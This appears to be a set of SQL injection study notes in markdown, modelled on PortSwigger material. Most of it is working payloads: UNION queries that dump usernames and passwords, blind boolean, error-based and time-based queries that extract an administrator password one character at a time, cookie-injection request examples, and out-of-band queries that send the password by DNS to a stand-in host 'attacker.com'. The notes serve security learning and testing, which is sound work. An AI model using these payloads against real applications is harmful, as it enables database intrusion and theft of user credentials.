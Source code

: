 # SQL injection

## SQL Injection Cheatsheet

* [https://tib3rius.com/sqli](https://tib3rius.com/sqli)
* [https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Overview

**How to detect SQL injection vulnerabilities**

* The single quote character `'` and look for errors or other anomalies.
* Boolean conditions such as `OR 1=1` and `OR 1=2`, and look for differences in the responses.
* Trigger time delays when executed within a SQL query, and look for differences in the time taken to respond.
* OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitor any resulting interactions.

**SQL injection in different parts of the query**

* Most SQL injection vulnerabilities occur within the `WHERE` clause of a `SELECT` query.
* However, SQL injection vulnerabilities can occur at any location (UPDATE, INSERT, SELECT \[column, table], ORDER BY)

**Warning: OR 1=1**

* If your condition reaches an UPDATE or DELETE statement, for example, it can result in an accidental loss of data.

**Database-specific syntax**

* Example:
  * Oracle: every `SELECT` query must use the `FROM` keyword and specify a valid table
  * MySQL: the double-dash sequence must be followed by a space

**Encode payload in the cookie**

* Remember that you can encode also in the cookie value. This may be useful with payload that use `;`.

## SQL injection UNION attacks

* Requirements
  * How many columns are being returned from the original query
  * Which columns returned from the original query are of a suitable data type to hold the results from the injected query

### Determining the number of columns required

* First way: Injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs. Example (the injection point is a quoted string within the `WHERE` clause)
  * ```
    ' ORDER BY 1--
    ' ORDER BY 2--
    ' ORDER BY 3--
    etc.
    ```
* Second way: submitting a series of `UNION SELECT` payloads specifying a different number of null values. NULL is convertible to every common data type, so it maximizes the chance that the payload will succeed when the column count is correct.
  * ```
    ' UNION SELECT NULL--
    ' UNION SELECT NULL,NULL--
    ' UNION SELECT NULL,NULL,NULL--
    etc.
    ```
* Note: the application might actually return the database error in its HTTP response, but may return a generic error or simply return no results

### Finding columns with a useful data type

* Do you want a string?
  * ```
    ' UNION SELECT 'a',NULL,NULL,NULL--
    ' UNION SELECT NULL,'a',NULL,NULL--
    ' UNION SELECT NULL,NULL,'a',NULL--
    ' UNION SELECT NULL,NULL,NULL,'a'--
    ```
  * If no error occurs and the response includes the injected string, the column is suitable for retrieving string data.

### Examining the database

* `' UNION SELECT @@version--`
* Most database types (except Oracle) have a set of views called the information schema

```markdown
# MySQL
# information_schema.tables
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    TABLE_TYPE
MyDatabase       dbo             Products      BASE TABLE

# information_schema.columns
TABLE_CATALOG    TABLE_SCHEMA    TABLE_NAME    COLUMN_NAME    DATA_TYPE
MyDatabase       dbo             Users          UserId        id

# Find tables names
SELECT * FROM information_schema.tables
# Find columns names
SELECT * FROM information_schema.columns WHERE table_name = 'Users'SELECT * FROM information_schema.tables


# Oracle
SELECT * FROM all_tables
SELECT TABLE_NAME FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
SELECT COLUMN_NAME FROM all_tab_columns WHERE table_name = 'USERS'
```

### Retrieving multiple values within a single column

* You can retrieve multiple values together within this single column by concatenating the values together
* `' UNION SELECT username || '~' || password FROM users--`

## Blind SQL Injection

* Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

### Triggering conditional responses

* `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'`
  * …xyz' AND '1'='1
    * The query return results, because the injected `AND '1'='1` condition is true. As a result, the "Welcome back" message is displayed.
  * …xyz' AND '1'='2
    * The query do not return any results, because the injected condition is false. The "Welcome back" message is not displayed.
* Extract data one piece at a time
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
    * This returns the "Welcome back" message, indicating that the injected condition is true, and so the first character of the password is greater than `m`
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't`
    * This does not return the "Welcome back" message, indicating that the injected condition is false, and so the first character of the password is not greater than `t`.
  * `xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's`
    * ... Confirm that the first character of the password is `s`
  * We can continue this process to systematically determine the full password for the Administrator user.

### Error-based SQL injection

* Problem: Some applications carry out SQL queries but their behavior doesn't change, regardless of whether the query returns any data. The technique "Triggering conditional responses" won't work, because injecting different boolean conditions makes no difference to the application's responses.
* It's often possible to induce the application to return a different response depending on whether a SQL error occurs and extract or infer sensitive data from the database, even in blind contexts.
* `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a`
  * The CASE expression evaluates to 'a', which does not cause any error.
* `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a`
  * It evaluates to 1/0, which causes a divide-by-zero error.
* You can use this to determine whether the injected condition is true.
* `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
* Note: There are different ways of triggering conditional errors, and different techniques work best on different database types. See SQL cheat sheet

<details>

<summary>Example</summary>

<pre class="language-markdown"><code class="lang-markdown"># In this example the response are always the same. 
<strong># However, if you submit an invalid query you will get an error.
</strong><strong>
</strong><strong># 1 - Check if it's vulnerable
</strong>## Normal request. 200 OK
Cookie: TrackingId=xyz
## Cause error. 500 Internal Server Error
Cookie: TrackingId=xyz'


# 2 - Identify database [tiberius cheatsheet]. NOTE: add comment...
## (MySql). 500 Internal Server Error
Cookie: TrackingId=xyz' AND 'foo' 'bar' = 'foobar'#
## (ORACLE). 200 OK
Cookie: TrackingId=a' AND LENGTHB('foo') = '3'--


# 3 - Test boolean error. 
## Error condition: 500 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
## No error condition: 200 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (2=1) THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--


# 4 - Extract data
## Error condition: 500 OK (it means that first char is 'a')
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a') THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
## No error condition: 200 OK
Cookie: TrackingId=xyz'	AND 1=(SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'b') THEN TO_CHAR(1/0) ELSE '1' END FROM dual)--
</code></pre>

</details>

**Extracting sensitive data via verbose SQL error messages**

* Example: inject `'` and you get an error: `Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`
* You can use the `CAST()` function to turns an otherwise blind SQL injection vulnerability into a visible one
* `TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

### Time-based SQL injection

* Condition: As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response.
* Triggering time delays depending on whether an injected condition is true or false

```
'; IF (1=2) WAITFOR DELAY '0:0:10'--    
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* The first does not trigger a delay (false), the second does (true)
* We can retrieve data by testing one character at a time
* `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`\


### Out-Of-Band (OAST) SQL injection

An application might carry out a SQL query asynchronously (another thread execute the SQL query)

```markdown
# Triggering a DNS query
'; exec master..xp_dirtree '//attacker.com/a'--
' UNION SELECT UTL_INADDR.get_host_address('attacker.com')

# Exfiltrate data
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.attacker.com/a"')--
```
